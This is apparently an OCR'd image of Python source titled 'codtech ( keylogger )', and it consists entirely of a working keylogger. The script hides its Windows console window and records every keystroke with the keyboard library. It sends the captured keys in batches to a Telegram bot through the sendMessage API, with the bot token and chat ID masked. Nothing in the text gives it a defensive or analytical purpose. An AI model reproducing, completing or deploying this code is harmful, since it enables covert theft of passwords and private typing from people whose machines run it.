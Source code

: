 codtech ( keylogger )
import requests
import keyboard
import ctypes
import os

# Hide the console window (only on Windows)
def hide_console():
    if os.name == 'nt':
        ctypes.windll.user32.ShowWindow(ctypes.windll.kernel32.GetConsoleWindow(), 0)

# Hide the console window at the start
hide_console()

print("start")

# Your Telegram bot token
token = "74073xxxxxxxxxxxxxxxxxxxx"
url = f"https://api.telegram.org/bot{token}/sendMessage"

# Chat ID to send the messages to
chat_id = "1453xxxxxxxxxxx"

data = ""
while True:
    a = keyboard.read_key()
    data += f"{a} "
    if len(data) > 20:
        print(data)
        pram = {"chat_id": chat_id, "text": data}
        print(url, pram)
        res = requests.post(url, data=pram)
        if res.status_code == 200:
            print("Message sent successfully!")
        else:
            print("Failed to send message.")
            print(f"Status Code: {res.status_code}")
            print(f"Response: {res.json()}")
        data = ""
        print(data)
